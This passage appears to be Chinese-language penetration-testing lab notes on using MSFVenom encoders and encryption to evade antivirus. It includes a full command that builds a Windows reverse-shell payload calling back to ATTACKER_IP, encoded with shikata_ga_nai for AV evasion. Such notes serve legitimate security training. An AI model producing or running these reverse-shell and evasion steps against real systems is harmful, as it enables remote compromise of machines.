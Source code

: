 ##### 1. MSFVenom 编码 (Encoding)

- **列出可用编码器**:
    
    Bash
    
    ```
    user@AttackBox$ msfvenom --list encoders | grep excellent
    # 输出示例:
    #    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    #    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    ```
    
- **使用 `shikata_ga_nai` 编码器进行多次迭代**:
    
    Bash
    
    ```
    user@AttackBox$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=443 -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
    ```
    
    尽管经过多次编码，这种载荷在现代 AV面前通常仍然会被检测到。

##### 2. MSFVenom 加密 (Encryption)

- **列出可用加密算法**:
    
    Bash
    
    ```
    user@AttackBox$ msfvenom --list encrypt
    # 输出示例:
    #    Name
    #    ----
    #    aes256
    #    base64
    #    rc4
    #    xor
    ```
    